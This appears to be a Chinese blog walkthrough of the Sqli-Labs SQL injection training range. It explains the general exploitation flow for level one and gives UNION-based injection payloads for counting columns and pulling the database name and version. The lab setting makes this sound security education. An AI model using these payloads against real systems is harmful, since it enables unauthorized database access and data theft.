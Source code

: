 ```yaml
---
title: Sqli-Labs 靶场过关记录
toc: true
categories: Tech Blog
abbrlink: e524a0b
date: 2023-08-10 21:12:27
updated: 2024-03-31 21:12:27
---
```


Sqli-Labs 是一个颇为出名的 SQL 注入靶场，提供了丰富的 SQL 注入演习靶场
我在本地搭建的 SQLInjection 靶场环境为 Apache2.4.39, MySQL8.0.12 与 PHP5.3.29nts.
[靶场仓库地址](https://github.com/Audi-1/sqli-labs)
日后有空就 Fork 靶场仓库，使其适配最新版 PHP 与 MySQL 并写入注释解读每一关代码并拓展关卡对应技术知识 😇

>尽管 sqli-labs 的 index 页面显示它有 75 关，但无论是翻阅靶场文件还是阅读其他通关攻略，都只找得到 65 关，故 65 这个关卡数应该才是正确的 : P

## Page-1 Basic Injections

### SQL 注入漏洞的一般利用流程

以第一关为例，当我们发现攻击对象存在 SQL 注入漏洞的注入点时，常通过以下流程进行漏洞利用

假设我们通过联表查询进行数字型 SQL 注入，其中被注入语句为

```SQL
SELECT * FROM USERS WHERE ID = {USER_INPUT}
```

假设 USERS 表有 3 个字段 ，分别为 ID, USERNAME, PASSWORD ， 为达成攻击目的，常使用以下 Payload

1. 测试列数

```SQL
-1 ORDER BY 1 #
-1 ORDER BY 2 #
-1 ORDER BY 3 #
...
-1 ORDER BY N #
# 直到列数到不报错为止
```

或者

```SQL
-1 UNION SELECT 1 #
-1 UNION SELECT 1,2 #
-1 UNION SELECT 1,2,3 #

# 这样做的好处是可以确定前端输出的数据位于 SQL 语句的查询的第几位
```

1. 判断出原 SQL 语句查询的列数（根据假定情况为 3 位）后，获取库名，系统版本号

```SQL
-1 UNION SELECT 1,DATABASE(),VERSION() #
```
